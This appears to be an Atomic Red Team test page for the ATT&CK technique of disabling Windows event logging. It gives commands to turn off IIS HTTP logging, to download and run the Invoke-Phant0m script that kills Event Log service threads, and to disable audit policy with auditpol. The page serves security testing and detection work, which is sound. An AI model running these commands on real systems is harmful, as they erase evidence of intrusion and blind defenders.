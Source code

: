 # T1562.002 - Disable Windows Event Logging
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1562/002)
<blockquote>Adversaries may disable Windows event logging to limit data that can be leveraged for detections and audits. Windows event logs record user and system activity such as login attempts, process creation, and much more.(Citation: Windows Log Events) This data is used by security tools and analysts to generate detections.

Adversaries may targeting system-wide logging or just that of a particular application. By disabling Windows event logging, adversaries can operate while leaving less evidence of a compromise behind.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Disable Windows IIS HTTP Logging](#atomic-test-1---disable-windows-iis-http-logging)

- [Atomic Test #2 - Kill Event Log Service Threads](#atomic-test-2---kill-event-log-service-threads)

- [Atomic Test #3 - Impair Windows Audit Log Policy](#atomic-test-3---impair-windows-audit-log-policy)


<br/>

## Atomic Test #1 - Disable Windows IIS HTTP Logging
Disables HTTP logging on a Windows IIS web server as seen by Threat Group 3390 (Bronze Union).
This action requires HTTP logging configurations in IIS to be unlocked.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| website_name | The name of the website on a server | string | Default Web Site|


#### Attack Commands: Run with `powershell`! 


```powershell
C:\Windows\System32\inetsrv\appcmd.exe set config "#{website_name}" /section:httplogging /dontLog:true
```

#### Cleanup Commands:
```powershell
if(Test-Path "C:\Windows\System32\inetsrv\appcmd.exe"){
  C:\Windows\System32\inetsrv\appcmd.exe set config "#{website_name}" /section:httplogging /dontLog:false *>$null
}
```





<br/>
<br/>

## Atomic Test #2 - Kill Event Log Service Threads
Kill Windows Event Log Service Threads using Invoke-Phant0m. WARNING you will need to restart PC to return to normal state with Log Service. https://artofpwn.com/phant0m-killing-windows-event-log.html

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned -ErrorAction Ignore
$url = "https://raw.githubusercontent.com/hlldz/Invoke-Phant0m/f1396c411a867e1b471ef80c5c534466103440e0/Invoke-Phant0m.ps1"
$output = "$env:TEMP\Invoke-Phant0m.ps1"
$wc = New-Object System.Net.WebClient
$wc.DownloadFile($url, $output)
cd $env:TEMP
Import-Module .\Invoke-Phant0m.ps1
Invoke-Phant0m
```

#### Cleanup Commands:
```powershell
Write-Host "NEED TO Restart-Computer TO ENSURE LOGGING RETURNS" -fore red
```





<br/>
<br/>

## Atomic Test #3 - Impair Windows Audit Log Policy
Disables the windows audit policy to prevent key host based telemetry being written into the event logs.
[Solarigate example](https://www.microsoft.com/security/blog/2021/01/20/deep-dive-into-the-solorigate-second-stage-activation-from-sunburst-to-teardrop-and-raindrop/)

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
auditpol /set /category:"Account Logon" /success:disable /failure:disable
auditpol /set /category:"Logon/Logoff" /success:disable /failure:disable
auditpol /set /category:"Detailed Tracking" /success:disable
```

#### Cleanup Commands:
```cmd
auditpol /set /category:"Account Logon" /success:enable /failure:enable
auditpol /set /category:"Detailed Tracking" /success:enable
auditpol /set /category:"Logon/Logoff" /success:enable /failure:enable
```





<br/>
